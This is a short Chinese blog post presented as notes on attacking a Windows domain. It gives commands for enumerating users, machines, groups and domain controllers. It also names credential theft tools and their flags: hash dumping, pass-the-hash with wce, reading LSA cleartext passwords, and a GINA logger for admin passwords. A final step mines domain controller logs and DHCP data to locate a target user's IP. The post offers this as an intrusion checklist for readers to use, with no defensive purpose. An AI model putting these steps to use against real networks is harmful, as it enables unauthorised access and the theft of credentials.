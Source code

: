 title: "域内渗透小记"
date: 2012-06-13 16:06:29
tags:
id: 65
comment: false
---

一、获取域内信息

1、列出该域内所有机器名(dsquery computer domainroot -limit 65535 &amp;&amp; net group “domain computers” /domain)

2、列出该域内所有用户名(dsquery user domainroot -limit 65535 &amp;&amp; net user /domain)

3、列出该域内网段划分  (dsquery subnet)

4、列出该域内分组      (dsquery group &amp;&amp; net group /domain)

5、列出该域内组织单位  (dsquery ou)

6、列出该域内域控制器  (dsquery server &amp;&amp; net time /domain）

7、列出域管理员帐号    (net group “domain admins” /domain）

二、分析域内信息确定目标      通过上述收集到的信息，我们可以分析出很多重要信息例如：每个分组下面都有哪些用户、机器（net group 组名/domain &amp;&amp; dsquery  “ou信息”）文件服务器，邮件服务器以及目标所在位置等。

三、域内渗透

1、抓取hash破解密码(gsecdump、wce、pwdump7、gethash等)   2、hash 注入 （wce -s）

3、读取lsa明文密码 （wce1.3 -w 、gsecdump -a）

4、0day溢出（smb、rdp、dns、rpc 等）

5、安装gina 记录管理员帐号密码

6、hd 扫描弱口令等 [www.2cto.com](http://www.2cto.com)      通过以上方法获取域控制器权限

四、确定目标IP

1、确定目标用户登录日期(net user aa /domain)

2、导出该日期域控制器登录日志(cscript eventquery.vbs /fi “Datetime eq 06/25/2012,03:15:00AM/06/25/2012,03:15:00PM”  /l Security &gt;c:xxx.txt)

3、导出DHCP配置(netsh dhcp)        通过日志分析可确定目标IP，进一步精确打击。    以上命令皆为范例！~请自行测试使用！~

&nbsp;

文章作者：随风.潜入夜

本文地址：[http://doie.net/?p=2738](http://doie.net/?p=2738)

转自：网络大学|Network University:http://doie.net/?p=2738